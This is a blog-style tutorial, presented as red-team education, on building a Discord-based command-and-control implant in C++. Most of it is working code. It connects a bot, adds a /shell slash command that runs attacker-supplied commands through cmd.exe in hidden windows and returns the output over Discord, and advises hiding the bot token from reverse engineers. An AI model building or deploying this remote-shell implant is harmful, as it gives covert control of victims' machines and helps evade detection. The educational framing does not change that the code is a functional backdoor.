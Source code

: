 ##### Using Discord as a C2

While researching online, I came across convoC2, a project that uses Microsoft Teams as a Command and Control (C2) server. It immediately took me back to my malware development days. That sparked an idea; why not build something similar using Discord as the C2 channel?

The malicious abuse of Discord as a C2 medium is already widespread in the wild. So if you're looking for something for your blackhat toolkit, this post won’t offer much value. However, if you're interested in understanding how C2 infrastructure can be designed over modern chat platforms, especially for red teaming, simulation, or educational purposes then this writeup will serve as a solid starting point.

**Pros:**
Using public platforms like Discord eliminates the overhead of setting up and maintaining your own C2 infrastructure. There's no need for VPS, domain registrations, or SSL certificates as everything rides on an already trusted service.

**Cons:**
When law enforcement comes knocking, understand that you’ve handed them everything. Logs, identifiers, timestamps, and platform level visibility. You didn’t just use Discord, you left footprints on someone else's server.

### Prerequisites

1. Coding in a low level language; Difficult to reverse, more practical for real world simulations. I'll be using C++.
2. Discord Bot config (https://discord.com/developers/applications)

#### Setting up Discord BOT

- Go to [Discord Developer portal](https://discord.com/developers/applications) and create a "New Application", name it anything you want.
- ![devportal](./discord1.png)
- Go to Bot -> **Reset Token**. Copy the token, It is the only thing that we will need.

### Lets Code

I will be using the following C++ Library for discord: [https://github.com/brainboxdotcc/DPP](https://github.com/brainboxdotcc/DPP). You can go to its [releases](https://github.com/brainboxdotcc/DPP/releases/tag/v10.1.3) and install it however you want.

#### Connect to discord

Below is a baseline code that will connect and send a message to your discord server, make sure you add your discord bot to a test server before running the below snippet.

```cpp
#include <dpp/dpp.h>

int main() {
    const char* token_chars = "BOT_TOKEN_HERE"; // Replace with your actual token
    std::string token(token_chars);
    dpp::cluster bot(token);

    bot.on_ready([&bot](const dpp::ready_t& event) {
        std::cout << "Bot is now online!" << std::endl;
    });

    bot.start(dpp::st_wait);
    return 0;
}
```

The code is compiled into a binary. When executed, the Discord bot comes online and sends a message, signaling it's active. From there, we can send commands directly from the Discord server to the bot, and define custom instructions for it to execute.

Sounds familiar? It should it’s essentially the foundation of a Command and Control (C2) system.

#### Adding a shell

The following code reads in /shell command, and executes the argument, returns output:

```cpp
bot.on_slashcommand([&bot](const dpp::slashcommand_t& event) {
        std::string cmd = event.command.get_command_name();
        if (cmd == "shell") {
            try {
                std::string command = std::get<std::string>(event.get_parameter("command"));
                std::wstring wcmd = L"cmd.exe /c " + std::wstring(command.begin(), command.end());

                // Let the user know the command is being processed
                event.thinking();

                std::string output = execute_command(wcmd);
                if (output.empty()) output = "Command executed but returned no output.";

                // Format output as code block
                if (output.length() > 1900) {
                    send_chunked_reply(event, "```\n" + output + "\n```");
                }
                else {
                    event.edit_original_response(dpp::message("```\n" + output + "\n```"));
                }
            }
            catch (const std::exception& e) {
                event.edit_original_response(dpp::message("Error executing command: " + std::string(e.what())));
            }
        }
```

execute_command() implementation:
```cpp
std::string execute_command(const std::wstring& cmd) {
    SECURITY_ATTRIBUTES sa;
    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.bInheritHandle = TRUE;
    sa.lpSecurityDescriptor = NULL;

    HANDLE hOutRd, hOutWr;
    if (!CreatePipe(&hOutRd, &hOutWr, &sa, 0)) {
        return "Failed to create pipe";
    }
    if (!SetHandleInformation(hOutRd, HANDLE_FLAG_INHERIT, 0)) {
        CloseHandle(hOutRd);
        CloseHandle(hOutWr);
        return "Failed to set handle information";
    }

    STARTUPINFOW si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    si.hStdOutput = hOutWr;
    si.hStdError = hOutWr;

    PROCESS_INFORMATION pi;
    ZeroMemory(&pi, sizeof(pi));


    if (!CreateProcessW(NULL, const_cast<LPWSTR>(cmd.c_str()), NULL, NULL, TRUE,
        CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
        CloseHandle(hOutRd);
        CloseHandle(hOutWr);
        return "Failed to create process: " + std::to_string(GetLastError());
    }

    CloseHandle(hOutWr);
    std::string result;
    DWORD bytesRead;
    char buffer[4096];
    bool success = false;

    while (true) {
        success = ReadFile(hOutRd, buffer, sizeof(buffer) - 1, &bytesRead, NULL);
        if (!success || bytesRead == 0) break;

        buffer[bytesRead] = '\0';
        result += buffer;
    }

    WaitForSingleObject(pi.hProcess, 10000); // Wait up to 10 seconds
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    CloseHandle(hOutRd);

    return result;
}
```

The above function executes system command and returns its output as a string. When it is called from within the code, it should look something like:
![shell1](shell1.png)

### Bot token hardcoding
Since the bot token is hardcoded as a string, IT can be easily extracted with simple RE techniques. To handle this, You can encrypt the bot token or place it at EOF in the binary after its built, and make the code read the bot token from EOF when it is started. I can go over through that but that is a topic that deserves its own post.

### Wrapping Up
The codebase I’m working on already includes features like system fingerprinting and screenshot capture. I’ll cover those and more advanced features in a follow-up post.